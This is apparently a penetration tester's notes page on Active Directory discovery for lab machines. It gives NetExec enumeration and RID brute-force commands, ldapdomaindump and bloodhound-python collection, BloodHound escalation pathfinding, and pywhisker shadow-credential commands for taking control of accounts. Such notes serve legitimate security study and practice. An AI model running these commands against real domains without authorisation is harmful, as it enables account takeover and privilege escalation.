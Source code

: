 # Active Directory Discovery

# Enumerating Users
Can use NetExec to enumerate a bunch of information:
This command will enumerate domain groups, local groups, logged on users, relative identifiers (RIDs), sessions, domain users, SMB shares/permissions, and get the domain password policy. You can also use CIDR notation to target a range of ip addresses (i.e. 10.10.10.0/24). From [WADComs GitHub](https://wadcoms.github.io/wadcoms/NetExec-Enum-SMB/).

`nxc smb $target_ip -u "$user" -p "$pass" --groups --local-groups --loggedon-users --rid-brute --users --shares --pass-pol | tee 09_netexec_enumerate_all.txt`


# Domain dumping
Another good option is to dump the entire domain
`ldapdomaindump ldap://$target_ip -u "$domain\\$user" -p $pass`


# Bloodhound
So good. So, so good.

## Starting bloodound
1. Follow the instructions at [Kali Bloodhound](https://www.kali.org/tools/bloodhound/) to install and setup.
2. Once configured, start with `sudo bloodhound`.
3. This will open the web GUI


## Data collectors
The official bloodhound collectors are for Windows platforms. However, bloodhound-python is natively built into kali and can do this. The command below will collect all data from the domain and compress to a zip file. Note that [DC Name] should the be the name of a domain controller (e.g. DC01.fluffy.htb).

`bloodhound-python -u '$user' -p '$pass'  -d $domain -ns $target_ip -dc [DC Name] -c All -gc $domain --zip`

*Troubleshooting*
1. In some cases it may be necessary to run a time sync to the target domain in order for certificates to be valid: `sudo ntpdate $target_ip`
2. It may also be helpful to update `/etc/resolve.conf` to add a nameserver for the target IP so that name resolution works correctly. Using the `-ns` flag with bloodhound-python should make this unnecessary.
```
search mshome.net 
#nameserver 172.18.16.1 
nameserver 10.10.11.69 
```

## Using Bloodhound GUI
- Upload the data to bloodhound from the GUI by going to Administration > File Ingest > Upload File(s). 
- Once uploaded go to the Explore tab > Search Nodes > Type in the name of a user or group
- Also try out pathfinding from your current position to the target node. Select the arrows between nodes to see if an escalation path is possible


# Creating Shadow Credentials with Pywhisker
This tool allows users to manipulate the msDS-KeyCredentialLink attribute of a target user/computer to obtain full control over that object.

Install into a virtual environment using pip: `pip install pywhisker`
- `pywhisker -d $domain -u "$user" -p "$pass" --target "$target_account" --action "list"`: List current KeyCredential IDs for the target account
- `pywhisker -d $domain -u "$user" -p "$pass" --target "$target_account" --action "add" --filename output.pfx`
